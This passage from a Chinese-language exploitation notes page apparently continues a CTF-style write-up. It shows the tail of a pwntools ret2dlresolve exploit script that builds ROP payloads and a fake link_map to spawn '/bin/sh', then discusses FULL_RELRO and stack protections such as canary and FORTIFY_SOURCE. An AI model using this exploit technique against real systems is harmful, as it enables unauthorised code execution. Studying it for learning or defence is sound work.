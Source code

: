 ```python
            0,
            elf.plt.read,
            pop_rdi_ret + 1,
            pop_rdi_ret,
            buf_addr + 0x50,
            0x400586,
            buf_addr,
            0,
        ]
    }
)

s(payload)

debugB()
payload = flat(
    {
        0x00: [l_addr],
        0x08: [0x05, dynstr],
        0x18: [0x06, elf.got.puts - 8],
        0x28: [0x11, fake_rel_addr],
        0x38: [r_offset, 7],
        0x50: [u64_ex(b"/bin/sh\x00")],
        0x68: [
            buf_addr + 0x08,
            buf_addr + 0x18,
        ],
        0xF8: [buf_addr + 0x28],
    },
)

s(payload)

ia()
```

## `FULL_RELRO` 不再适用

在开启 `FULL_RELRO` 的情况下 ret2dlresolve 的利用方法不再合适，若题目仍然无法产生任何泄漏，ROP 可以低位覆盖栈中残留数据来触发 syscall（比赛中成功过）。

---

# 补充

## 2024/03/13

面试时还多次问到了「你知不知道有什么保护可以阻止栈溢出」类似的问题，我只回答了一个 canary。但结束后仔细一想 fortify 其实也是，作为 GCC 提供的源码级别的保护，可以通过编译选项 `-D_FORTIFY_SOURCE={0,1,2} -O1` 选择开启级别，会将 printf、read、memcpy 等函数编译成 `__read_chk` 等函数，若 `nbytes > buflen`，则会直接 `SIGABRT` 结束程序运行。
